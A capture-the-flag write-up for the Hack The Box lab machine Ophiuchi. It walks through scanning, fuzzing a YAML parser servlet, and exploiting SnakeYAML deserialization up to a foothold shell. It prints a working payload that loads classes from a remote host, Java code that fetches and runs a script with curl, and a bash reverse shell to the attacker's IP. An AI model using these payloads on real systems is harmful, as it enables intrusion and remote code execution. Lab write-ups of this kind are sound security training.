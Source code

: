# Ophiuchi

## Details

- **Points**: 30
- **Difficulty**: Medium
- **Operating System**: Linux
- **IP Address**: 10.10.10.227

## Table of Contents

- Foothold
  - [Network Scanning](#network-scanning)
- User
- Root

## Walkthrough

### Network Scanning

As usual, let's start with scanning the network with Nmap.

```
$ sudo nmap -sC -sV -O -oA nmap/out -p$(nmap -T4 -p- 10.10.10.227 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed "s/,$//") 10.10.10.227
[sudo] password for kali:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-05 20:38 AEST
Nmap scan report for 10.10.10.227
Host is up (0.022s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Parse YAML
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.60 seconds
```

## Web Application Enumeration

There is a Apache Tomcat webserver running on port 8080 on the remote machine. Let's check out the web application running on it.

![yaml parser](images/0.png)

Let's try to input a valid YAML into the text area.

![valid yaml](images/1.png)

and click on the **PARSE** button.

![feature disabled](images/2.png)

Although the feature seems to be disabled due to security reason, let's keep on testing the web app since there is no other open ports. We can keep testing the app manually or using tools, such as [`wfuzz`](https://github.com/xmendez/wfuzz), which we will use in this scenario.

We can start testing the app by inputting bad characters, such as `'`, '!' and so on, into the textarea. With Kali Linux, we don't need to create our own list of bad characters as there is an existing list at `/usr/share/wordlists/wfuzz/Injections/bad_chars.txt`

We can start testing with the following command.

```
$ wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/bad_chars.txt -d "data=FUZZ" http://10.10.10.227:8080/Servlet
```

According to `wfuzz --help`, `-c` will color the output to make it easier to view, `-z` is needed to specify the type of the payload (in this case, a `file`) and its corresponding parameter (in this case, the `file`'s path).

If we inspect the web app,

![post request to servlet](images/3.png)

when the **PARSE** button is clicked, it will perform a POST request to `http://10.10.10.227:8080/Servlet`. Therefore, we also need `-d` to perform a POST request to the webserver and `FUZZ` will be replaced by the payload.

The output is as follows

![wfuzz output](images/4.png)

It looks like some symbols caused an error on the webserver as it returns [status code 500](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/500).

Trying to replicate the error by manually inputting one of the bad characters, such as `'`, gives us a more detailed error message.

![internal server error](images/5.png)

Now, we know that snakeyaml is running on the server. Let's do some research on this library.

A quick Google search leads us to [this article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858), which shows us that snakeyaml library has a deserialization vulnerability and how to exploit it.

In that article, the payload used was:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

According to the article, if snakeyaml sees `!!` when parsing YAML, it will interpret the following code as a Java class and call the constructor for the class.

In this scenario, the payload above should be the equivalent of the following

```java
new ScriptEngineManager(new URLClassLoader(new URL("http://attacker-ip/")))
```

it will class the constructor for Java's [ScriptEngineManager](https://docs.oracle.com/en/java/javase/11/docs/api/java.scripting/javax/script/ScriptEngineManager.html) class, which can accept a ClassLoader (in this case, [URLClassLoader](https://docs.oracle.com/javase/7/docs/api/java/net/URLClassLoader.html) is passed and, in turn, it accepts [URL](https://docs.oracle.com/javase/7/docs/api/java/net/URL.html)) as the constructor's argument.

According to ScriptEngineManager's [documentation](https://docs.oracle.com/en/java/javase/11/docs/api/java.scripting/javax/script/ScriptEngineManager.html), ScriptEngineManager will then send a request to the URL, `http://attacker-ip/`, and ask for an implementation of `ScriptEngineFactory` and execute it.
Therefore, if we can implement our own `ScriptEngineFactory`, we will be able to get a code execution on the server.

For now, let's try to input the following payload to the textarea and setup a python web server on our local machine with `python -m http.server 9999`.

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.59:9999"]
  ]]
]
```

![initial payload](images/6.png)

Although no error is raised, we still get a request on our python webserver.

```
$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.10.227 - - [05/Jul/2021 21:45:57] code 404, message File not found
10.10.10.227 - - [05/Jul/2021 21:45:57] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
```

As explained earlier, ScriptEngineManager makes a request to the attacker ip address and asks for ScriptEngineFactory implementation with a specific directory structure. Since we still don't have the implementation, our server returns 404.

[This GitHub repository](https://github.com/artsploit/yaml-payload) provides a template that we can easily use to exploit the vulnerability. It has the directory structure that we want and an initial implementation of ScriptEngineFactory. Let's clone it.

The initial implementation in the repository doesn't give us a reverse shell. Let's change the implementation of the AwesomeScriptEngineFactory's constructor to the following

```java
public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl -o /tmp/script 10.10.14.59:9999/script");
            Runtime.getRuntime().exec("bash /tmp/script");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

Next, let's create a file named `script`, which will be requested by the remote machine using curl based on the implementation above.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.59/4444 0>&1
```

Now, let's compile `AwesomeScriptEngineFactory.java` to create `AwesomeScriptEngineFactory.class` with the following command:

```
javac AwesomeScriptEngineFactory.java
```

and create a new python server inside the `src` directory `cd yaml-payload/src && python3 -m http.server 9999`.

Additionally, create a `nc` listener for our reverse shell `nc -nlvp 4444` in another terminal window.

Finally, input the payload specified earlier to the textarea to create ScriptEngineManager and click **PARSE**.

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.10.227] 42364
bash: cannot set terminal process group (793): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
tomcat
bash-5.0$
```

python server logs:

```
$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.10.227 - - [05/Jul/2021 22:08:16] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
10.10.10.227 - - [05/Jul/2021 22:08:16] "GET /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
10.10.10.227 - - [05/Jul/2021 22:08:17] "GET /artsploit/AwesomeScriptEngineFactory.class HTTP/1.1" 200 -
10.10.10.227 - - [05/Jul/2021 22:08:17] "GET /script HTTP/1.1" 200 -
```
